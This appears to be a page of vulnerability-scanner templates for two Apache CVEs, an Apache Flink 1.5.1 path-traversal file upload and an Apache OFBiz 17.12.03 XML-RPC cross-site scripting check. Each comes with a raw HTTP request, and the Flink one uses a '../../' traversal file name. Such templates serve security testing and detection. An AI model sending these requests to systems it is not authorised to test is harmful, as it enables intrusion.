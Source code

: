 ## Description

- Apache Flink 1.5.1 is vulnerable to local file inclusion because of a REST handler that allows file uploads to an arbitrary location on the local file system through a maliciously modified HTTP HEADER.

- severity - high
- tags - lfi,flink,fileupload,vulhub,cve,cve2020,apache,intrusive

## Requests

### Step - 1

```
POST /jars/upload HTTP/1.1
Host: {{Hostname}}
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../../tmp/poc"

test-poc
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

---

# Apache OFBiz 17.12.03 - Cross-Site Scripting

## Description

- Apache OFBiz 17.12.03 contains cross-site scripting and unsafe deserialization vulnerabilities via an XML-RPC request.
- severity - medium
- tags - ofbiz,packetstorm,cve,cve2020,apache,java

## Requests

### Step - 1

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: {{Hostname}}
Origin: http://{{Hostname}}
Content-Type: application/xml

<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value>dwisiswant0</value></param></params></methodCall>

```
